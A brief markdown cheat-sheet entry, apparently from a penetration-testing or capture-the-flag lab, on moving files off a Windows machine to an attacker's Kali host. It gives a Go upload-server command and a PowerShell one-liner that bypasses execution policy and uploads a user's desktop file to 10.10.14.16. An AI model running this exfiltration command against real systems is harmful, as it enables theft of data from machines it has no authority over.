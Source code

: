 ## Here is a way to upload off windows machine to a webserver on my kail:

https://github.com/mayth/go-simple-upload-server


```
./go-upload-http-nix -port 13005 ./
```

**Powershell to upload:**

```powershell
powershell -nolog -executionpolicy bypass -c "(New-Object System.Net.WebClient).UploadFile('http://10.10.14.16:13005/upload?token=56c987eaebb0203f19b9', 'POST', 'c:\users\phineas\desktop\Oracle issue.txt' )"
```